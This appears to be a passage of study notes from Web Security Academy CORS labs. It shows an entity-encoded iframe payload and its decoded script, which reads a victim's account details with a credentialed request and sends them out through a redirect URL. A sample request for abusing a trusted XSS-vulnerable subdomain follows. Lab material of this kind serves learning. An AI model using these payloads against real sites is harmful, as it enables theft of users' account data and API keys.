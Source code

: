 ```html
srcdoc="&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x63;&#x6f;&#x6e;&#x73;&#x74;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x20;&#x3d;&#x20;&#x6e;&#x65;&#x77;&#x20;&#x58;&#x4d;&#x4c;&#x48;&#x74;&#x74;&#x70;&#x52;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x28;&#x29;&#x0a;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x6f;&#x70;&#x65;&#x6e;&#x28;&#x22;&#x67;&#x65;&#x74;&#x22;&#x2c;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x30;&#x61;&#x31;&#x66;&#x30;&#x30;&#x66;&#x37;&#x30;&#x33;&#x30;&#x61;&#x32;&#x32;&#x62;&#x65;&#x38;&#x35;&#x62;&#x66;&#x61;&#x66;&#x38;&#x39;&#x30;&#x30;&#x65;&#x62;&#x30;&#x30;&#x66;&#x33;&#x2e;&#x77;&#x65;&#x62;&#x2d;&#x73;&#x65;&#x63;&#x75;&#x72;&#x69;&#x74;&#x79;&#x2d;&#x61;&#x63;&#x61;&#x64;&#x65;&#x6d;&#x79;&#x2e;&#x6e;&#x65;&#x74;&#x2f;&#x61;&#x63;&#x63;&#x6f;&#x75;&#x6e;&#x74;&#x44;&#x65;&#x74;&#x61;&#x69;&#x6c;&#x73;&#x22;&#x2c;&#x20;&#x74;&#x72;&#x75;&#x65;&#x29;&#x0a;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x6f;&#x6e;&#x6c;&#x6f;&#x61;&#x64;&#x20;&#x3d;&#x20;&#x28;&#x29;&#x3d;&#x3e;&#x7b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x77;&#x69;&#x6e;&#x64;&#x6f;&#x77;&#x2e;&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x2e;&#x68;&#x72;&#x65;&#x66;&#x3d;&#x20;&#x22;&#x2f;&#x61;&#x62;&#x63;&#x3f;&#x6b;&#x65;&#x79;&#x3d;&#x22;&#x20;&#x2b;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x72;&#x65;&#x73;&#x70;&#x6f;&#x6e;&#x73;&#x65;&#x54;&#x65;&#x78;&#x74;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x7d;&#x0a;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x77;&#x69;&#x74;&#x68;&#x43;&#x72;&#x65;&#x64;&#x65;&#x6e;&#x74;&#x69;&#x61;&#x6c;&#x73;&#x3d;&#x74;&#x72;&#x75;&#x65;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x73;&#x65;&#x6e;&#x64;&#x28;&#x29;&#x0a;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;"
></iframe>
</body>
</html>
```

The HTML encoding section is as follows:

```html
<script>
    const request = new XMLHttpRequest()

    request.open("get", "https://0a1f00f7030a22be85bfaf8900eb00f3.web-security-academy.net/accountDetails", true)

    request.onload = ()=>{
        window.location.href= "/abc?key=" + request.responseText
    }

    request.withCredentials=true
    request.send()
</script>
```
# Exploiting CSS via CORS

If a site trusts an origin that is XSS vulnerable, an attacker can exploit it to inject JavaScript that uses CORS to extract sensitive information from the site that trusts it. For example:

```html
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```
